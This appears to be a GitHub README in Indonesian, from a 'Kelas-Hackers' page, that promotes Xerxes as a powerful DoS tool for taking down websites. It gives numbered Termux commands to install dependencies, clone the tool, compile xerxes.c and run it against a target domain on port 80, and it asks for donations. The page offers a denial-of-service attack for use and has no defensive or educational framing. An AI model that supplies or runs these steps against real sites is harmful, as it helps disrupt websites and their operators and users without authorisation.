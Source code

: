 ### Xerxes

# Kelas-Hackers


## Jangan lupa Kunjungi : <noscript><a href="https://r-protech.blogspot.com"><img alt="Donate using Liberapay" src="https://1.bp.blogspot.com/-3USBRfJT2W4/X02_zL03xrI/AAAAAAAAACo/bJU8dnJH_Owk6Xpiu3NOIH0xWzPFp9tdgCLcBGAsYHQ/s519/20200901_102714.png"></a></noscript><br/>

XERXES DoS tool Yang Kuat untuk menDDOS suatu Website

```
# Cara Menggunakan :

# $ pkg update && pkg upgrade
# $ pkg install php
# $ pkg install python2
# $ pkg install mechanize
# $ pkg install openssh
# $ pkg install git
# $ git clone https://github.com/TheSploit/Xerxes
# $ cd Xerxes
# $ gcc xerxes.c -o xerxes
# $ ./xerxes namaweb.com 80
```
```From World```
<noscript><a href="https://paypal.me/indonimous"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript><br/>
```From Indonesian```
<noscript><a href="https://sociabuzz.com/rivalid/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>

